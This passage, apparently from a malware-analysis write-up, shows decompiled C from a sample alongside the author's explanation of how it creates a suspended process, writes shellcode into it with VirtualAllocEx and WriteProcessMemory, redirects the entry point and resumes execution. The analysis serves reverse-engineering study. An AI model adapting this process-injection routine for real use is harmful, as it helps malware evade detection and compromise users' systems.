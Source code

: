 ```c
      pCVar6 = ContextStruct;
      createproc_ret = GetThreadContext(PI_struct.hThread,ContextStruct);
      uVar3 = extraout_DL_01;
      if (createproc_ret != 0) {
        ReadProcessMemory(PI_struct.hProcess,(LPCVOID)(ContextStruct->Ebx + 8),&lpBuffer,4,
                          (SIZE_T *)NULL);
        lpBaseAddress =
             VirtualAllocEx(PI_struct.hProcess,*(LPVOID *)(iVar1 + 0x40304c),
                            *(SIZE_T *)(s_!This_program_cannot_be_run_in_D_00403065 + iVar1 + 3),
                            0x3000,0x40);
             /*Allocate Space for the Shellcode */
        WriteProcessMemory(PI_struct.hProcess,lpBaseAddress,&lpBuffer_00403018,
                           *(SIZE_T *)(s_!This_program_cannot_be_run_in_D_00403065 + iVar1 + 7),
                           (SIZE_T *)0x0);
        iVar5 = 0;
        if (*(short *)(iVar1 + 0x40301e) != 0) {
          iVar4 = 0;
          ContextStruct = pCVar6;
          do {
            iVar2 = DAT_00403054 + iVar4;
            WriteProcessMemory(PI_struct.hProcess,
                               (LPVOID)(*(int *)(iVar2 + 0x40311c) + (int)lpBaseAddress),
                               (LPCVOID)((int)&lpBuffer_00403018 + *(int *)(iVar2 + 0x403124)),
                               *(SIZE_T *)(iVar2 + 0x403120),(SIZE_T *)0x0);
            iVar5 = iVar5 + 1;
            iVar4 = iVar4 + 0x28;
            pCVar6 = ContextStruct;
          } while (iVar5 < (int)(uint)*(ushort *)(iVar1 + 0x40301e));
          /*Write the shellcode to the suspended process*/
        }
        WriteProcessMemory(PI_struct.hProcess,(LPVOID)(ContextStruct->Ebx + 8),
                           (LPCVOID)(iVar1 + 0x40304c),4,(SIZE_T *)0x0);
        ContextStruct->Eax = *(int *)(iVar1 + 0x403040) + (int)lpBaseAddress;
        SetThreadContext(PI_struct.hThread,ContextStruct);
        /*Point the entrypoint to a new code section*/
        ResumeThread(PI_struct.hThread);
                    /* Move to the entry point of the created process and resume program execution
                        */
        uVar3 = extraout_DL_02;
      }
      in_stack_fffffb98 = SUB41(pCVar6,0);
    }
  }
  iVar1 = FUN_0040121f(local_8 ^ (uint)&stack0xfffffffc,uVar3,in_stack_fffffb98);
  return iVar1;
}
```
 Here we have the code somewhat readable atleast the most important parts. So in short the function creates a process in a suspended state, does some basic checks, then it writes the attacker code into the created process and moves the entry point of the created process to make the parent process point to the `main()` function of the suspended process, then we simply resume the process.
<br>
<br>

